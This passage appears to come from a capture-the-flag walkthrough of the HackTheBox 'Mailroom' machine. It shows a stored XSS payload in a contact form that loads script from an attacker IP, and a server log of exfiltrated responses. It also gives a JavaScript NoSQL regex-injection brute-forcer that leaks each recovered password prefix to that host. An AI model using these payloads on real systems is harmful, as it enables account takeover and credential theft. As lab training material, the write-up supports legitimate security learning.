```bash
> http -pB POST mailroom.htb/contact.php email=abraxas@mailroom.htb title=Test message='<script src="http://10.10.14.35/user_enum.js"></script>' -f
```

I get a success response with `tristan`, so its a valid user on the staff website.

```bash
> python xxs_flask.py
 * Serving Flask app 'xxs_flask'
 * Debug mode: off
2023-07-18 05:35:16,670 - INFO - WARNING: This is a development server. Do not use it in a production deployment. Use a production WSGI server instead.
 * Running on all addresses (0.0.0.0)
 * Running on http://127.0.0.1:80
 * Running on http://192.168.253.133:80
2023-07-18 05:35:16,670 - INFO - Press CTRL+C to quit
2023-07-18 05:35:53,458 - INFO - 10.10.11.209 - - [18/Jul/2023 05:35:53] "GET /nosqli.js HTTP/1.1" 200 -
{"success":false,"message":"Invalid input detected"}{"success":true,"message":"Check your inbox for an email with your 2FA token"}
2023-07-18 05:35:53,638 - INFO - 10.10.11.209 - - [18/Jul/2023 05:35:53] "GET /exfil?data=eyJzdWNjZXNzIjpmYWxzZSwibWVzc2FnZSI6IkludmFsaWQgaW5wdXQgZGV0ZWN0ZWQifXsic3VjY2VzcyI6dHJ1ZSwibWVzc2FnZSI6IkNoZWNrIHlvdXIgaW5ib3ggZm9yIGFuIGVtYWlsIHdpdGggeW91ciAyRkEgdG9rZW4ifQ== HTTP/1.1" 200 -
```

Now that we have the username, the next step is to brute force the password for Tristan. Initially I tried crafting an async script with `fetch()`, but it didn't work as expected, so I eventually switched to sending the requests via `XMLHttpRequest` synchronously. Certain special characters had to be excluded from the character set due to a potential conflict with the regex validation. It's plausible that a step was overlooked during this trial and error process, and this could be a false positive.

```javascript
var password = "";
// Removed special chars like $,*,?,+... etc, might cause issues with regex
var charset =
    "0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!%<>@#";

for (let i = 0; i < charset.length; i++) {
    var payload_req = new XMLHttpRequest();
    let test_pass = password + charset[i];
    // Doesn't like async
    payload_req.open(
        "POST",
        "http://staff-review-panel.mailroom.htb/auth.php",
        false
    );
    payload_req.setRequestHeader(
        "Content-Type",
        "application/x-www-form-urlencoded"
    );
    payload_req.send(
        "email=tristan@mailroom.htb&password[$regex]=" + test_pass + ".*"
    );

    if (payload_req.responseText.includes("2FA")) {
        password += charset[i];

        var exfil = new XMLHttpRequest();
        exfil.open("GET", "http://10.10.14.35/?passwd=" + password, true);
        exfil.send();
        // reset the loop
        i = 0;
    }
}
```